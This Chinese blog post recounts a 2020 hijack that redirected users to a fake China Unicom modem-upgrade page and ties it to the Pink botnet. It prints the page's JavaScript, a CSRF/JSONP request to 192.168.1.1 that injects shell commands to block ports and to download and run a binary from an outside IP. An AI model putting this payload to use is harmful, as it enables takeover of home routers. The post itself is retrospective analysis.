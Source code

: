# 从最近披露的Pink僵尸网络想到的


昨天上课的时候无聊刷[V2EX](https://www.v2ex.com/t/810633)，读到 360 Netlab 发布的文章[《一个藏在我们身边的巨型僵尸网络 Pink》](https://blog.netlab.360.com/pinkbot/)，披露了2019年底到2020年春节前后的一个名为"**Pink**"的巨型僵尸网络从被发现到攻防博弈过程的一些细节

文中的攻防过程令我很是激动，因为我想起了在2020年初的一件事

## 光猫升级事件

2020年1月初，访问某些http协议(80端口)的网站，会被劫持到一个联通光猫升级页面

![百度贴吧被劫持到升级页面](tieba-web-update.png "百度贴吧被劫持到升级页面")

{{< admonition info >}}
对这个页面的源码在gist上进行了[备份](https://gist.github.com/zu1k/7120d1f71797153eb8c867bb09323eae)，感兴趣的同学可以看一下 [9923](https://gist.github.com/zu1k/7120d1f71797153eb8c867bb09323eae#L9923) 行
{{< /admonition >}}

### 官方后门

通过查看请求和页面源码可以发现这个页面通过向 `192.168.1.1` 的某个接口进行 **jsonp** 请求来执行命令

```javascript
function ajax(){
    //document.getElementById("tip").innerHTML="请重启光猫，并保持页面不关闭，重启后请立即连接光猫WIFI或者网口，等待五分钟后检查网络是否正常";
    $.ajax(
        {
            dataType: 'jsonp',
            data: "",
            jsonp: 'callback',
            url: 'http://192.168.1.1/createNewFolder.json?enlpassword=1234567890abcdefx1234567890abcdefxx1234567890abcdefxxx1eee;iptables -I OUTPUT -p tcp --dport 443 -j DROP;iptables -I OUTPUT -p udp --dport 123 -j DROP;if [ ! -f /tmp/sdsjw ] %26%26 wget http://182.43.249.225:19735/sdsjw -P /tmp;then chmod 777 /tmp/sdsjw;/tmp/sdsjw;fi; /jsonp?',
            success: function (data) {
                console.log(JSON.stringify(data));   // 这里是返回数据
                //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
            },
            error:function(XLMHttpResponse,textStatus,errorThrown){
                if(XLMHttpResponse.status == 200){
                    //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
                }
            },
            complete:function(XLMHttpResponse){
                if(XLMHttpResponse.status == 200){
                    //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
                }
            }
        }
    );
}
```

很明显，这是一个后门，或者是一个漏洞，我更相信这是一个官方后门

根据它的写法我稍微测试了一下，通过jsonp跨域，进行CSRF，的确可以执行任意命令

![测试这个后门](test-backdoor.png "测试后门")

如果被利用了，岂不是？？？又有谁知道到底是不是已经被利用了呢，反正我不知道

{{< admonition info >}}
我很早之前就把光猫设置为桥接模式了，利用自己的路由器拨号，不受该后门影响

局域网也改为另外一个网段了，“192.168.1.1” 根本没有机器
{{< /admonition >}}

再回过头来看升级页面执行的shell命令:

```bash
iptables -I OUTPUT -p tcp --dport 443 -j DROP;
iptables -I OUTPUT -p udp --dport 123 -j DROP;
if [ ! -f /tmp/sdsjw ] && wget http://182.43.249.225:19735/sdsjw -P /tmp; then
    chmod 777 /tmp/sdsjw;
    /tmp/sdsjw;
fi;
/jsonp?
```

当初看这段命令的时候就觉得非常奇怪

为什么上来第一句就要阻断到所有目标443端口的tcp连接？当初的一个想法是防止用户用https协议，这样用户只能使用80端口的http明文协议，可以进行监听或者劫持等操作。这样也不合理啊，HSTS也不是吃干饭的，再说联通如果通过更新屏蔽掉到443端口的所有请求，不怕用户集体反馈和投诉吗？反正当初是没想通这个谜之操作

再看第二句，也莫名其妙，udp 123端口是NTP服务，找你惹你了，犯不着全部屏蔽掉吧。还是想不明白

往后的命令就比较常规了，下载了一个二进制程序，权限修改为`777`，然后直接执行

### 怀疑被攻击

通过对上面升级执行的命令进行分析，我觉得这些操作很不符合常理，将这些已知信息在小群里交流之后，怀疑可能是一起攻击事件，通过劫持用户的http访问，利用光猫的后门(可能是漏洞，虽然我不信)植入恶意程序

遂决定对`sdsjw`程序进行逆向分析，分析的枯燥过程这里省略了，最后结果就是没有发现什么异常的点，到这里对这个事件的分析便不了了之了（当初的二进制程序我找不到了，现在也下载不到了）

{{< admonition info >}}
通过逆向mips版的升级程序，我得出了两个结论：

- JEB的MIPS逆向体验很不错
- 毛子的JEB破解版真好用
{{< /admonition >}}

### 联通工作人员上门升级

2020年5月10号下午，联通工作人员上门进行光猫升级。具体升级方法就是把一块板子通过光猫侧面的口插到主板上，然后通过手机上的app进行固件刷写

在交流的过程中，他透漏光猫大批量被控，有对外攻击流量，接上面要求需要对所有光猫进行升级。我家的光猫在线升级失败，只能到户手动完成。我看了一下他需要上门的名单，看样子我们这个区域关闭了在线管理接口的用户还不少啊哈哈哈

![联通工作人员上门升级](update.jpg "联通工作人员上门升级")

## 我在第一层，人家在第5层

虽然这个事已经过去一年多了，但现在想起来还是有那么一些感触，在运营商与黑客的一轮又一轮攻防博弈中，我有幸记录下其中某个小小的过程。在信息还未对外揭露之前，我无法理解那些莫名其妙的升级指令，甚至怀疑那是一起攻击事件，利用自己微不足道的知识尝试分析却不得结果。当保密期过去之时，我们得以看到整个事件的原貌，不禁感叹，我还是太年轻了啊（好像听到了“长者”的话）

### 关于看待事情

所谓“管中窥豹，略见一斑”，从这件事我学到的第一点便是，要有大局观，要广泛的收集信息，看待某件事时要把时间线放长，这样才能去尽力触及事情的真相

### 关于现代网络攻击

我学到的第二点是关于现代网络攻击。我觉得我对网络攻击的印象还停留在早年的那些简单的漏洞利用，虽然近几年通过网络也吃了不少现代网络攻击事件的瓜，但是并未意识到真正的网络攻击就潜伏在你我身边

通过本次事件我们可以清晰的看出，现代的网络攻击使用的技术更加先进，对隐匿性的要求也更高，如果不是有广泛的监控难以发现。在遇到厂商的狙杀时攻击者能够在第一时间绕过和阻拦，甚至能够在多轮对抗中取得优势将厂商直接阻拦在门外，夺取绝对的控制权，逼迫厂商只能线下进行上门修复

简单列几句文中的原话：

- “至对光猫固件做了多处改动后，还能确保光猫能够正常使用”
- “在与相关厂商的屡次攻防博弈中，PinkBot 的运营者都占据了明显的对抗优势”
- “PinkBot 在整个过程中表现出了极强的针对性和专业性，各方面能力都很均衡，甚至有些可怕”
- “攻击者还使用了ecdsa对配置信息进行了签名”

我觉得不可思议的是这一句：

- “我们一直阶段性的对公网上的 Pink 节点进行持续监测，通过对 2021/10/20日的日志分析，我们仍然可以看到 103024 个 IP 处于日活状态。这表明，当前的 pink 的感染规模仍然在 10w 量级左右，涉及多家设备厂商，按照每个IP对应一个三口之家来计算，受影响人群大概 30w 人左右”

被发现近2年，竟然还没有清除干净，这存活能力得有多强，难以想象

结论：攻击者能力很强，未来遭遇的攻击会更加专业和可怕

### 关于个人安全

关于个人安全，其实我没有发言权，毕竟我也曾踩过别人的水坑

但是我还是要说一句，就是保持差异化，默认的配置只会给攻击者创造便利

再加一句，不要把自己的安全完全托付在别人手中

## 参考链接

- [运营商收回公网 IP 的原因之一](https://www.v2ex.com/t/810633)
- [一个藏在我们身边的巨型僵尸网络 Pink](https://blog.netlab.360.com/pinkbot/)
- [用户端设备ONU被肉鸡攻击实例浅析](https://www.freebuf.com/articles/endpoint/243189.html)

